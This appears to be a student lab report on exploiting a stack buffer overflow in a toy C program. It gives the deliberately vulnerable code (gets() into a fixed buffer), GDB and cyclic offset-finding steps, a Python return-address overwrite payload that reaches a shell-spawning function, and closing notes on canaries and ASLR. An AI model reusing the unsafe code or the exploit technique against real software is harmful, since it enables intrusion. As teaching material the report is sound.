




# Buffer Overflow Vulnerability Analysis

# Buffer Overflow Exploit Development

## 1. Introduction

This report describes the process of identifying a buffer overflow vulnerability in a simple C program and writing an exploit to gain control over the execution flow. The goal of the task was to demonstrate how buffer overflows can be used to overwrite the return address and invoke arbitrary functions, allowing unauthorized access to the system. The vulnerable program is analyzed and an exploit is written using the knowledge of stack memory layout and assembly-level analysis.

## 2. Vulnerable Program Analysis

### 2.1 Code Overview

The target program contains a buffer overflow vulnerability. The vulnerable function, `vulnerable()`, accepts user input using the unsafe `gets()` function, which does not check for buffer boundaries. This allows an attacker to overflow the buffer and overwrite the return address on the stack.

```c
#include <stdio.h>
#include <string.h>

void secret() {
    printf("Access granted! Exploit successful.\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter your name: ");
    gets(buffer);  // vulnerable function
    printf("Hello, %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}


```bash
cyclic 200
```
## 3. Identifying the Vulnerability

### 3.1 Stack Behavior and Buffer Overflow

The program contains a buffer `char buffer[64]`, which is vulnerable to overflow because of the unsafe use of `gets()`. By providing more than 64 characters as input, we can overwrite adjacent memory regions, including the saved return address of the function `vulnerable()`.

### 3.2 Pattern Creation and Finding the Offset

To determine the exact location where the buffer overflow occurs (i.e., where the return address is stored), we use the `cyclic` command to generate a unique pattern:

This command generates a 200-character pattern that is used as input for the program. Upon crashing the program with a segmentation fault, we can inspect the saved register values (specifically EIP) in GDB to locate the point where the return address was overwritten.

In GDB, the command `info registers` helps us identify the overwritten EIP:

```bash
info registers
```

By using the `cyclic -l` command in GDB, we can determine the exact offset to the return address:

```bash
cyclic -l 0x61616174
```

The output shows that the offset to overwrite the return address is 76 bytes.

## 4. Writing the Exploit

### 4.1 Exploit Script

To exploit the vulnerability, we write a Python script that generates a payload. The payload consists of 76 "A"s to fill the buffer and then the address of the `secret()` function, which we obtained from the `objdump` command:

```bash
objdump -d vuln | grep secret
```

The address of the `secret()` function is `0x080484b6`. Using this address, we construct the payload in the exploit script:

```python
import os

offset = 76  # determined empirically
secret_addr = 0x080484b6  # address of the secret function

payload = b"A" * offset
payload += secret_addr.to_bytes(4, 'little')  # EIP

with open("exploit_input", "wb") as f:
    f.write(payload)
```

The payload is written to the file `exploit_input`, which is then passed to the vulnerable program:

```bash
./vuln < exploit_input
```

### 4.2 Exploit Execution

When the program is executed with the crafted input, it successfully redirects the execution flow to the `secret()` function, which prints:

```
Access granted! Exploit successful.
```

A shell is then spawned, giving the attacker control over the system.

## 5. Protecting the Program and Additional Analysis

### 5.1 Stack Protector and ASLR

After successfully exploiting the buffer overflow, we test the program with additional protections enabled:

**Stack Protector:** The stack protector (canary) is enabled to prevent stack buffer overflows.

```bash
gcc -m32 -fstack-protector vuln.c -o vuln_protected
```

**ASLR:** Address Space Layout Randomization (ASLR) is enabled to randomize memory addresses.

```bash
sudo sysctl -w kernel.randomize_va_space=2
```

With these protections in place, the program behaves differently, and the exploit is blocked. The stack protector causes a crash due to the invalid stack state, and ASLR randomizes the address of the `secret()` function, making it difficult to predict the address.

### 5.2 IDA Pro Analysis

We use IDA Pro to analyze the vulnerable binary. By disassembling the binary, we examine the stack layout, specifically how the return address is stored and how it can be overwritten during a buffer overflow. The function `vulnerable()` is analyzed to understand the flow of execution and identify how the return address can be hijacked.

## 6. Conclusion

In this exercise, we successfully exploited a buffer overflow vulnerability to gain control over the program's execution flow. By understanding the stack layout and using techniques such as pattern creation, GDB analysis, and writing an exploit, we demonstrated how an attacker can overwrite the return address and execute arbitrary functions. The exercise also illustrated the importance of stack protection mechanisms, such as stack canaries and ASLR, in preventing such attacks.

In the future, it's crucial to use safe functions (like `fgets()`) and enable protections like stack canaries, ASLR, and DEP to prevent buffer overflow vulnerabilities.
